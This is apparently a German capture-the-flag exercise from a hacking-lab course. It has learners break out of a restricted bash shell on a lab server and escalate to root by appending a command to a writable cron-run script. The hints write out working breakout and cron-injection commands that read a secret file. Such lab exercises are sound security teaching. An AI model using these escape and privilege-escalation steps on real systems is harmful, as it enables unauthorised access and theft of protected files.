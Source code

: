 # Aufgabe 08: Got Wurzel
## Einleitung
Bei dieser Übung schlüpfst Du in die Rolle des Hackers und Du sollst auf dem Server auf den Inhalt einer geheimen Datei zugreifen. 

`/goldnugget/goldnugget.gn`

Du bist aber auf dem Server in einem "Gefängnis" eingesperrt und musst dort zuerst ausbrechen. 

![jail](jail.png)

## Gefängnis == Restricted Shell
Bei dieser Aufgabe kannst Du auf einen Linux Server zugreifen. 

* https://got-wurzel.idocker.hacking-lab.com/ 
* Username = restricted
* Password = restricted 
  
Dort angekommen, ist Deine Shell in einem Gefängnis gefangen und kann nicht auf das ganze Betriebssystem und Files zugreifen. 

![linux](linux.png)

Versuche aus dem Gefängnis auszubrechen `rbash breakout` und hol Dir den Inhalt der geheimen Datei `/goldnugget/goldnugget.gn`


## Screenshot nach dem Login
![got-root](gr.png)


## Die wichtigsten Linux Kommandos für diese Aufgabe
```bash
cat             (anschauen von einem file)
ls              (listing von files)
ls -al          (listing von files mit auflistung berechtigungen)
ls -al bin      (listing des ordner "bin" mit berechtigungen)
echo "blabla"   (ausgabe von "blabla")
tee             (umlenkung der ausgabe auf bildschirm und in file)
|               (pipe = zwei befehle miteinander kombinieren)

HINT1 rbash break-out: 
tee ./bin/dig
#!/bin/bash
PATH=/bin:/usr/bin:/usr/local/bin
cat /bin/bash > /home/restricted/dig
End the input with CTRL-C.

HINT2 analyse crontab
cat /etc/crontab/root

HINT3 auslesen geheime Datei
echo "cat /goldnugget/* >> /tmp/gotit" >> mtr-check
warten 1-2 Minuten
cat /tmp/gotit
```

## Erklärungen zum Hack
Der Hack besteht aus 3 Schritten

1. Ausbruch aus dem Gefängnis (rbash breakout)
2. Verstehen, wie man root Rechte erlangt (crontab)
3. Auslesen geheime Datei über crontab, den man beschreiben kann

### rbash breakout
* Schaue Dir die Berechtigungen an (insbesondere von .bashrc)
* Was bewirkt die .bashrc? Mach Dich schlau bei Google
* Lerne den Befehl "tee" kennen (Nachlesen bei Google)
* Lerne 
* Kombiniere diese Tipps und verlass das Gefängnis indem Du den Befehl "echo" mit der "|" und einer Datei kombinierst

### crontab kennen lernen
* Was macht unter Linux der `crontab`
* Was findest Du in der Datei `/etc/crontab/root`
* Was bedeutet das?
* Welche Berechtigungen haben die Programme die in `/etc/crontab/root` aufgelistet sind? 
* Schau Dir die Berechtigungen von `/usr/bin/mtr-check` an
* Diese wird jede Minute ausgeführt

### wissen kombinieren, geheime nachricht lesen
* Datei `/usr/bin/mtr-check` beschreiben
* warten 1-2 minuten
* Zugriff auf goldnugget möglich



